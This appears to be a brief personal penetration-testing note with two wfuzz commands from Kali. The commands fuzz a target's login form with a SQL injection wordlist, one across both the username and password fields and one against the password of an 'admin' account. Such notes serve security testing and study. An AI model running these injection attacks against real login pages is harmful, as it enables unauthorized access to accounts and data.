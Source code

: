```yaml
---
category: Uncategorized
tags: []
---
```

```bash - kali
wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/SQL.txt -d “username=FUZZ&password=FUZZ” -u $TARGET
```

```bash - kali
wfuzz -c -w /usr/share/wordlists/wfuzz/Injections/SQL.txt -d “username=admin&password=FUZZ” -u $TARGET
```

[[SQLText]]
